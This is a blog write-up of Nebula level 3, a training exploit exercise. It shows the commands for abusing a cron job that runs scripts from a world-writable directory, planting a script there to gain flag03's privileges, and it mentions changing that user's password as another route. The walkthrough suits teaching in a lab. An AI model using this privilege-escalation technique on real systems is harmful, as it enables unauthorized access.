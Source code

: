 ```yaml
---
layout: post
title:  "Exploit Excercises - Nebula: Level 3"
date:   2016-07-30 12:33:00 +0200
categories: security exercises
---
```


> Check the home directory of flag03 and take note of the files there.
> There is a crontab that is called every couple of minutes.

* * *

We'll start by examining the files in `flag03`'s home directory.

~~~ bash
level03@nebula:~$ ls -al /home/flag03/
total 6
drwxr-x--- 3 flag03 level03  103 2011-11-20 20:39 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag03 flag03   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag03 flag03  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag03 flag03   675 2011-05-18 02:54 .profile
drwxrwxrwx 2 flag03 flag03     3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03    98 2011-11-20 21:22 writable.sh
~~~

~~~ bash
level03@nebula:~$ cat /home/flag03/writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
~~~

Okay, so we have a directory we can write to, and a script that will gladly execute whatever is in that directory.

The easiest way to run the `getflag` executable would be to put this simple script into the `writable.d` directory.

~~~ bash
level03@nebula:~$ echo "getflag > /tmp/getflag.log" > /home/flag03/writable.d/getflag
~~~

Now we wait a few minutes. The cron job is executed every 3 minutes (you can check this by adding a script that runs `crontab -l > /tmp/crontab.log` or similar).

~~~ bash
level03@nebula:~$ cat /tmp/getflag.log
You have successfully executed getflag on a target account
~~~

You could also solve this by changing the password of the `flag03` user, but that might be a bit more intrusive :)
